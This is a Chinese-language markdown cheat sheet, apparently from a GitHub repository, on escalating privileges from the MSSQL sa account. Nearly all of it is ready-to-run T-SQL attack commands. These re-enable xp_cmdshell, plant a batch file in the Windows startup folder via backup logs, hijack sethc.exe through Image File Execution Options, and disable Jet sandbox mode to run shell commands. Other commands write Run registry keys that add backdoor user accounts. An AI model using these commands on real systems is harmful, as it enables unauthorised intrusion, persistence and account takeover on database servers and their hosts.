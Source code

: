 
# MSSQL

**SA 提权**

1. 判断扩展存储是否存在:
    ```
    select count(*) from master.dbo.sysobjects where xtype = 'x' AND name= 'xp_cmdshell'
    select count(*) from master.dbo.sysobjects where name='xp_regread'
    恢复:
    exec sp_dropextendedproc 'xp_cmdshell'
    exec sp_dropextendedproc xp_cmdshell,'xplog70.dll'
    EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;(SQL2005)
    ```

2. 列目录:
    ```
    exec master..xp_cmdshell 'ver'
    (or) exec master..xp_dirtree 'c:\',1,1
    (or) drop table black
    create TABLE black(mulu varchar(7996) NULL,ID int NOT NULL IDENTITY(1,1))--
    insert into black exec master..xp_cmdshell 'dir c:\'
    select top 1 mulu from black where id=1
    xp_cmdshell 被删除时,可以用(5.a)开启沙盒模式,然后(5.b)方法提权
    ```

3. 备份启动项:
    ```
    alter database [master] set RECOVERY FULL
    create table cmd (a image)
    backup log [master] to disk = 'c:\cmd1' with init
    insert into cmd (a) values (0x(batcode))
    backup log [master] to disk = 'C:\Documents and Settings\Administrator\「开始」菜单\程序\启动\start.bat'
    drop table cmd
    ```

4. 映像劫持

    `xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe','debugger','reg_sz','c:\windows\system32\cmd.exe'`

5. 沙盒模式提权:

    a : `exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet.0\Engines','SandBoxMode','REG_DWORD',0;` # 关闭沙盒模式

    b : `Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Database=c:\windows\system32\ias\ias.mdb','select shell("net user mstlab mstlab /add")');` #or c:\windows\system32\ias\dnary.mdb string 类型用此.
    开启 OpenRowSet:`exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ad Hoc Distributed Queries',1;RECONFIGURE;`

6. xp_regwrite 操作注册表

    `exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows\currentversion un','black','REG_SZ','net user test test /add'`

    开启 xp_oacreate : exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE;
